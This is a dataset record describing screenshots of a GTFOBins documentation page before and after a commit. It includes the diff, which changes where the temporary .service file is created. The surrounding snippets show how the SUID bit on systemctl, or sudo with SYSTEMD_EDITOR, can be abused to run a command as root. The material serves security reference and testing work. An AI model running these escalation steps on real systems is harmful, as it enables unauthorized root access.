

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the whole page at 92% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1063 px from its top, so only the background shows below that.

Commit message:
Fix path of service file

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -2,7 +2,8 @@
 functions:
   suid:
     - code: |
-        TF=$(mktemp).service
+        mkdir -p ~/.config/systemd/user
+        TF=$(mktemp -p ~/.config/systemd/user).service
         echo '[Service]
         Type=oneshot
         ExecStart=/bin/sh -c "id > /tmp/output"
@@ -17,7 +18,8 @@ functions:
         chmod +x $TF
         sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
     - code: |
-        TF=$(mktemp).service
+        mkdir -p ~/.config/systemd/user/
+        TF=$(mktemp -p ~/.config/systemd/user).service
         echo '[Service]
         Type=oneshot
         ExecStart=/bin/sh -c "id > /tmp/output"
```
